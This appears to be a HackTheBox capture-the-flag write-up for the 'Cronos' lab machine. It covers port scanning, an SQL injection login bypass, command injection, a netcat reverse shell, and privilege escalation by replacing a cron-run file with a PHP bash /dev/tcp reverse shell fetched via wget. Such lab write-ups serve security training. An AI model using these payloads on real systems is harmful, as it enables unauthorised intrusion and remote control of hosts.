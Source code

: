 ```yaml
---
author:
  name: "0xSc0ut"
date: 2020-07-14
linktitle: HackTheBox - Cronos
title: HackTheBox - Cronos
type:
- post
- posts
weight: 12
series:
- Hugo 101
aliases:
- /blog/hackthebox-cronos/
---
```


Welcome back with another HackTheBox machine


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594878011254_Screenshot+2020-07-16+at+11.09.53+AM.png)


Cronos is a **Linux** based **Medium** severity machine. This machine is highly recommended for beginners. Initial shell requires basic web application tricks whereas post exploitation is also something which we have seen before.

**Tools:**


- PortScan - Masscan and Nmap
- Subdomain Enumeration - Dig

**Initial Recon:**

As always start with scanning all ports, I have used masscan and nmap.


    #masscan
    open tcp 80 10.10.10.13 1594390115
    open tcp 53 10.10.10.13 1594390124
    open udp 53 10.10.10.13 1594390129
    open tcp 22 10.10.10.13 1594390142

**Nmap:**


    PORT   STATE  SERVICE VERSION
    22/tcp open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
    |   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
    |_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
    53/tcp open   domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
    80/tcp open   http    Apache httpd 2.4.18 ((Ubuntu))                                                                                                                                                         
    | http-cookie-flags:                                                                                                                                                                                         
    |   /:                                                                                                                                                                                                       
    |     PHPSESSID:                                                                                                                                                                                             
    |_      httponly flag not set                                                                                                                                                                                
    |_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                                                                                 
    |_http-title: Login Page                                                                                                                                                                                     
    | vulners:                                                                                                                                                                                                   
    |   cpe:/a:apache:http_server:2.4.18:                                                                                                                                                                        
    |       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679                                                                                                                                        
    |       CVE-2017-7668   7.5     https://vulners.com/cve/CVE-2017-7668                                                                                                                                        
    |       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169                                                                                                                                        
    |       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167                                                                                                                                        
    |       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211                                                                                                                                        
    |       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312                                                                                                                                        
    |       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715                                                                                                                                       
    |       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082                                                                                                                                       
    |       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
    |       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
    |       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
    |       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
    |       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
    |       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
    |       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
    |       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
    |       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
    |       CVE-2017-9798   5.0     https://vulners.com/cve/CVE-2017-9798
    |       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
    |       CVE-2016-8743   5.0     https://vulners.com/cve/CVE-2016-8743
    |       CVE-2016-8740   5.0     https://vulners.com/cve/CVE-2016-8740
    |       CVE-2016-4979   5.0     https://vulners.com/cve/CVE-2016-4979
    |       CVE-2019-0197   4.9     https://vulners.com/cve/CVE-2019-0197
    |       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
    |       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
    |       CVE-2016-4975   4.3     https://vulners.com/cve/CVE-2016-4975
    |       CVE-2016-1546   4.3     https://vulners.com/cve/CVE-2016-1546
    |       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
    |_      CVE-2016-8612   3.3     https://vulners.com/cve/CVE-2016-8612
    22/udp closed ssh
    53/udp open   domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
    | dns-nsid: 
    |_  bind.version: 9.10.3-P4-Ubuntu
    80/udp closed http
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Aggressive OS guesses: Linux 3.16 (94%), Linux 3.2 - 4.9 (94%), Linux 4.2 (94%), Linux 3.10 - 4.11 (93%), Linux 3.12 (93%), Linux 3.13 (93%), Linux 3.13 or 4.2 (93%), Linux 3.16 - 4.6 (93%), Linux 3.18 (93%), Linux 3.8 - 3.11 (93%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    TRACEROUTE (using proto 1/icmp)
    HOP RTT       ADDRESS
    1   560.94 ms 10.10.14.1
    2   543.36 ms admin.cronos.htb (10.10.10.13)
    
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 62.65 seconds
    

Accessing cronos.htb we result in something like this


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594881469139_Screenshot+2020-07-16+at+12.06.48+PM.png)


 
You will get subdomain **admin.cronos.htb** , only when you configure ip address and domain in **/etc/hosts**

Another way to find subdomains is using dig command (DNS Zone transfer misconfiguration ) [Reference](https://hackertarget.com/zone-transfer/)

**Initial Shell as www-data:**

By accessing admin.cronos.htb, a login pages was there


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594879944308_Screenshot+2020-07-16+at+11.41.57+AM.png)


I tried using common password which actually didn’t work, but found basic SQLi which allowed me in


    username: ‘ or 1=1#
    password: ‘ or 1=1#

So there is something where we can execute our shell commands


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594880129024_Screenshot+2020-07-16+at+11.44.45+AM.png)


If you are one who have played [DVWA](http://www.dvwa.co.uk/) (Damn Vulnerable Web Application), then this won’t be a big deal for,


    127.0.0.1 && ls


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594880448697_Screenshot+2020-07-16+at+11.50.39+AM.png)



    127.0.0.1 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.x.x 1234 >/tmp/f


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594880601810_Screenshot+2020-07-16+at+11.53.13+AM.png)


Use below command to read user flag


    cat /home/noulis/user.txt

**Privilege Escalation:**

While running crontab found a intresting crontab activity which runs every minute


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594886147602_Screenshot+2020-07-16+at+1.25.06+PM.png)


Lets backup the file content so we can retrive it if something goes wrong


    mv artisan artisan.bak


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594885217965_Screenshot+2020-07-16+at+1.10.03+PM.png)



So i created a php reverse shell file in my local machine


    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.x.x/1234 0>&1'");
    ?>

Transfer the file to vulnerable machine using command


    In my machine
    python -m SimpleHTTPServer <portnumber>


    In Victim machine
    wget http://10.10.x.x:<portnumber>/filename

I have used this you can use any file transfer technique

Now lets delete file **artisan** and change our file name as artisan


    rm artisan
    mv shell.php artisan

Since this file executes for every minute, we can start a netcat listner in our machine 

BOOM!!


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594885450090_Screenshot+2020-07-16+at+1.13.58+PM.png)


Thank you !! Will see you again in my next post


